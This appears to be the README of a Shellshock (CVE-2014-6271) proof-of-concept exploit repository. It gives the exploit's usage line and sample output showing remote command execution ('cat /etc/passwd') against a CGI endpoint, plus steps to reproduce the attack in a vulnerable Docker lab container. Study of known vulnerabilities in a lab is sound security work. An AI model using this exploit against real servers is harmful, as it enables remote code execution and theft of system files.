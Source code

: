 # CVE-2014-6271 | Shellshock

GNU Bash through 4.3 processes trailing strings after function definitions in the values of environment variables, which allows remote attackers to execute arbitrary code via a crafted environment, as demonstrated by vectors involving the ForceCommand feature in OpenSSH sshd, the mod_cgi and mod_cgid modules in the Apache HTTP Server, scripts executed by unspecified DHCP clients, and other situations in which setting the environment occurs across a privilege boundary from Bash execution, aka "ShellShock." NOTE: the original fix for this issue was incorrect; CVE-2014-7169 has been assigned to cover the vulnerability that is still present after the incorrect fix.

# Usage
**Exploit**
```
ruby cve-2014-6271_exploit.rb <TARGET> [CMD]
```

## PoC

```
-> ruby cve-2014-6271_exploit.rb http://localhost:8080/cgi-bin/stats "cat /etc/passwd"
[*] Sending Shellshock Exploit..
[+] Server response:

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
```

## Reproduce

- Install docker vulnerable container
```
docker pull hmlio/vaas-cve-2014-6271
```

- Run the container
```
docker run -d -p 8080:80 hmlio/vaas-cve-2014-6271
```

- Browse the vulnerable server
```
http://your-ip:8080/
```

- Exploit!


![](cve-2014-6271_poc.png)

# References
- http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
- https://www.rapid7.com/db/modules/exploit/multi/http/apache_mod_cgi_bash_env_exec

